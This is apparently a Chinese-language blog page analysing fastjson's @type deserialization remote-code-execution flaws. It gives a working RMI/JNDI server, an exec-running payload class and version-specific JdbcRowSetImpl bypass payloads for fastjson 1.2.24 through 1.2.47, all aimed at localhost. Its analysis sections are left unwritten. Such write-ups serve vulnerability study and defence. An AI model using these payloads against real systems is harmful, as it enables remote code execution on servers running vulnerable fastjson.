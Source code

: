 ```yaml
---
categories: [""] 
tags: [""] 
title: "fastjson远程执行漏洞分析"
# linkTitle: ""
weight: 5
description: >
  
---
```




# 背景

阿里巴巴的fastjson作为java语言的json解析包，因为其易用性在国内被广泛应用。但是其安全性一直被诟病。因此，本文对其多次安全漏洞进行了分析总结。

# fastjson安全特性

fastjson存在一个特殊的key：@type。它可以指定将json字符串反序列化为value中指定的任意类。形如：

```json
{"@type":"com.xx.hello", "hello":"xx"}
```
能通过fastjson的JSON.parseObject方法反序列化为com.xx.Hello DTO类的一个实例对象。
而fastjson的诸多安全漏洞，都是围绕@type产生

# 漏洞案例

详细代码请参考：[java-demo fastjson](https://github.com/chnherb/java-demo/tree/master/src/main/java/com/huangbo/fastjson)

## 服务端代码

1、rmi server

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import lombok.Data;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RmiFastJsonSafeServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
//        Reference reference = new javax.naming.Reference("com.huangbo.fastjson.Hello1", "com.huangbo.fastjson.Hello1", "http://127.0.0.1:1099/");
        Reference reference = new javax.naming.Reference("com.huangbo.fastjson.Hello", "com.huangbo.fastjson.Hello", "http://127.0.0.1:1099/");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
        registry.bind("hello", referenceWrapper);
    }
}
```
2、hello.java
```java
import lombok.Data;
@Data
public class Hello { // 这里需要为public才能调用到
    String hello;
    public Hello() {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c",
                    "/Applications/Calendar.app/Contents/MacOS/Calendar"});
        } catch (Exception e) {
        }
    }
}
```

## 1、本地调用示例

```java
// 1、这种调用方式不需要 hello 是public
String json = "{\"@type\": \"com.huangbo.fastjson.Hello\", \"hello\":\"hahaha\"}";
Object obj = JSON.parseObject(json);
System.out.println(obj);待补充
```
### 原理分析

待补充

## 2、远程调用示例

```java
//2、fastjson 1.2.24
//这种调用方式需要 hello 是public
String payload = "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 3、Lxx;漏洞

```java
// 3、fastjson 1.2.41
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 4、LLxx;;漏洞

```java
// 4、fastjson 1.2.42
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 5、[漏洞

```java
// 5、fastjson 1.2.43
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"[com.sun.rowset.JdbcRowSetImpl\"[{\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true]}";
JSON.parse(payload);
```
### 原理分析

待补充

## 6、缓存漏洞

```java
// 6、fastjson 1.2.47
String payload = "{" +
        "    \"a\":{" +
        "        \"@type\":\"java.lang.Class\"," +
        "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"" +
        "    }," +
        "    \"b\":{" +
        "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
        "        \"dataSourceName\":\"rmi://localhost:1099/hello\"," +
        "        \"autoCommit\":true" +
        "    }" +
        "}";
JSON.parse(payload);
```

### 原理分析

待补充


# Reference

[Fastjson 1.2.24反序列化漏洞分析](https://www.freebuf.com/vuls/178012.html)

[浅谈Fastjson RCE漏洞的绕过史](https://www.freebuf.com/vuls/208339.html)

[github fastjson远程执行poc](https://github.com/shengqi158/fastjson-remote-code-execute-poc)

[fastjson 远程反序列化poc的构造和分析](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90)

[基于JdbcRowSetImpl的Fastjson RCE PoC构造与分析](http://xxlegend.com/2018/10/23/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90)

[如何绕过高版本JDK限制进行JNDI注入利用](https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA)

[Fastjson 1.2.67版本刚刚发布即爆出严重漏洞](https://www.donews.com/news/detail/4/3086961.html)

[Spring IOC前世今生之JDNI](https://www.cnblogs.com/binarylei/p/12273010.html)

[JDNI注入学习](https://www.anquanke.com/post/id/233629)
